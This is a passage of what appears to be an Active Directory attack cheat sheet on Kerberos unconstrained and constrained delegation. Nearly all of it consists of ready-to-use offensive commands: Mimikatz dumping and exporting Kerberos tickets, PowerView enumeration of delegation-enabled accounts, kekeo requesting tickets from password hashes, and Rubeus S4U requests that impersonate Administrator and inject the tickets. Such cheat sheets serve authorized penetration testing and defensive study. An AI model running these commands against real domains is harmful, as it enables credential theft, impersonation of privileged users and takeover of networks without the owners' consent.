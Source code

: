 ```
# Powerview
Invoke-Mimikatz -Command '"sekurlsa::tickets"'
```
Use a compromised priviliged account to access the vulnerable service (for exemple IIS server):
```
Invoke-WebRequest http://iis01.offense.local -UseDefaultCredentials -UseBasicParsing
```
Or monitor any incoming sessions:
```
# Powerview
Invoke-UserHunter -ComputerName <NameOfTheComputer> -Poll <TimeOfMonitoringInSeconds> -UserName <UserToMonitorFor> -Delay <WaitInterval> -Verbose
```
Dump the tickets to disk:
```  
# Powerview
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```
Voir: [Any principal in Unconstrained Delegation]([Active Directory | HideAndSec](https://hideandsec.sh/books/cheatsheets-82c/page/active-directory#bkmrk-users-which-are-in-a))
### Constrained delegation
Enumerate users and computers with constrained delegation:
```
# Powerview
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
Get-Netuser -TrustedToAuth
Get-NetComputer -TrustedToAuth
Get-NetComputer -TrustedToAuth |   select samaccountname
# All privileged users that aren't marked as sensitive/not for delegation
Get-NetUser -AllowDelegation -AdminCount
```
If we have a user that has Constrained delegation, we ask for a valid tgt of this user using kekeo:
```
# kekeo
tgt::ask /user:<UserName> /domain:<Domain's FQDN> /rc4:<hashedPasswordOfTheUser>
```
Then using the TGT we have ask a TGS for a Service this user has Access to through constrained 
delegation
```
# kekeo
tgs::s4u /tgt:<PathToTGT> /user:<UserToImpersonate>@<Domain's FQDN> /service:<Service's SPN>

# Rubeus
# Request a ticket for multiple services on the target, for another user (S4U)
Rubeus.exe s4u /user:user1 /rc4:<hash> /impersonateuser:Administrator /msdsspn:"time/<target>.domain.local" /altservice:ldap,cifs /ptt
# If we have a session as the user, we can just run `.\Rubeus.exe tgtdeleg /nowrap` to get the TGT in Base64, then run:
Rubeus.exe s4u /ticket:doIFCDC[SNIP]E9DQUw= /impersonateuser:Administrator /domain:domain.local /msdsspn:"time/<target>.domain.local" /altservice:ldap,cifs /ptt
# Inject the ticket
Invoke-Mimikatz -Command '"kerberos::ptt ticket.kirbi"'
```
Any service can be specified on the target since it is not correctly checked. All the Rubeus commands can be performed with kekeo aswell. Without protocol transition, it is not possible to use **S4U2self** to obtain a forwardable ST for a specific user. This restriction can be bypassed with an RBCD attack detailled in [Resource-Based Constrained Delegation]([Active Directory | HideAndSec](https://hideandsec.sh/books/cheatsheets-82c/page/active-directory#bkmrk-users-which-are-in-a)).
 